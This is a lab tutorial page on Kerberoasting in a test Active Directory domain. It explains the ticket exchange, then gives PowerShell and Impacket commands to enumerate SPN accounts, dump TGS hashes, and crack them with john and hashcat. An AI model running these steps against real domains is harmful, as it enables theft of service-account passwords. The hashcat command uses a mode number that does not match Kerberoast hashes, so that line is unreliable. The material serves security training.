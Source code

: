# 9.3 - Kerberoasting

## Kerberoasting

Kerberoasting targets **service accounts with an assigned SPN**. When a user requests access to a service, they receive a **Service Ticket (ST)** encrypted with the service account’s long-term password.

If an attacker can obtain the **ST**, they can attempt to crack the encryption offline to retrieve the service account password.

#### Kerberos Ticket Exchange for Services

```
3) TGS-REQ (Client -> KDC/TGS)
   - TGT 🔑 Encrypted with KDC key
   - Authenticator Data 🔑 Encrypted with TGS Session Key

4) TGS-REP (KDC/TGS -> Client)
   - ST 🔑 Encrypted with Service key
   - Service Session Key 🔑 Encrypted with TGS Session Key
```

Unlike AS-REP Roasting, Kerberoasting requires valid domain user credentials to request a service ticket.

### Example: Exploiting Kerberoasting

**Step 1: Create a User with an SPN**

```powershell
New-ADUser -Name "kerberoasting" -SamAccountName "kerberoasting" -UserPrincipalName "kerberoasting@dev-angelist" -AccountPassword (ConvertTo-SecureString -AsPlainText "Password123!" -Force) -Enabled $true
```

**Step 2: Assign an SPN**

```powershell
Set-ADUser -Identity "kerberoasting" -ServicePrincipalNames @{Add="HTTP/kerberoasting.dev-angelist.lab"}
```

**Step 3: Verify the SPN**

```powershell
Get-ADUser -Identity "kerberoasting" -Properties ServicePrincipalNames
setspn -L kerberoasting
```

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

**Step 4: Identify Kerberoastable Accounts**

```bash
#On attacker machine create a dedicated python environment (optional)
python3 -m venv venv
. venv/bin/activate
pip3 install impacket
#Check kerberoastable users using the Impacket's module: GetUserSPNs.py
GetUserSPNs.py dev-angelist.lab/devan:'Password123!' -dc-ip corp-dc
```

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

in this case there're two vulnerable users: 'kerberoasting' and 'angel'.

**Step 5: Request Service Tickets for Kerberoasting**

```powershell
GetUserSPNs.py dev-angelist.lab/devan:'Password123!' -dc-ip corp-dc -request #without specifing a user it checks all possible tickets
GetUserSPNs.py dev-angelist.lab/devan:'Password123!' -dc-ip corp-dc -request-user kerberoasting | grep '\$krb5tgs\$' > kerberoast.txt
```

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

**Step 6: Crack the Service Ticket**

```bash
john --wordlist=/home/kali/Documents/password.txt ./kerberoast.txt
hashcat -m 18200 ./kerberoast.txt /home/kali/Documents/password.txt
```

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

#### Troubleshooting: Clock Skew Errors

If you encounter `KRB_AP_ERR_SKEW (Clock skew too great)`, synchronize the clocks with:

```bash
sudo timedatectl set-ntp off
ntpdate -q corp-dc
ntpdate -u corp-dc
```

***

## Other Resources

* [Kerberos Authentication Hexdump YT](https://www.youtube.com/watch?v=dQz3CMlVYNY\&list=PLJnLaWkc9xRi71Pso26JlvyBkLUOETLjn)
* [Roasting attacks Hexdump YT](https://www.youtube.com/watch?v=fVTZEIZIEqg)
